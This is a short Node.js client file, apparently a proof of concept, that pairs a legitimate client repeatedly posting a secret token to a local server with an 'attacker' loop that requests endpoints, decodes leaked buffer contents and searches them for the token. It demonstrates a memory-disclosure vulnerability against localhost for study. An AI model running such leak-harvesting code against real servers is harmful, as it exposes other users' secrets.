 client.js:
```javascript
// Two clients in one:
//   valid() is the valid client that sends the token.
//   attacker() makes the server to leak the data and inspects it.

var http = require('http');

var token = 'MySecretKey';

var fine = new Uint8Array(1000).toString();

function parse10(x) {
	return parseInt(x, 10);
};

function attacker() {
	http.request({host: 'localhost', port: 7777, path: '/file1'}, function(res) {
		res.on('data', function() {});
	}).end();
	http.request({host: 'localhost', port: 7777, path: '/token/invalid'}, function(res) {
		res.on('data', function (chunk) {
			var data = chunk.toString();
			if (data === fine) {
				return;
			}
			data = new Buffer(data.split(',').map(parse10));
			data = data.toString('utf-8');
			if (data.indexOf(token) !== -1) {
				console.log('found!');
				console.log(data);
			}
		});
		res.on('end', attacker);
	}).end();
}

for (var i = 0; i < 10; i++) {
	attacker();
}

function valid() {
	var req = http.request({host: 'localhost', port: 7777, path: '/stuff/' + token, method: 'POST'}, function(res) {
		res.on('data', function() {});
		res.on('end', function() {
			setTimeout(valid, 100);
		});
	});
	req.write(token);
	req.end();
}
valid();
```
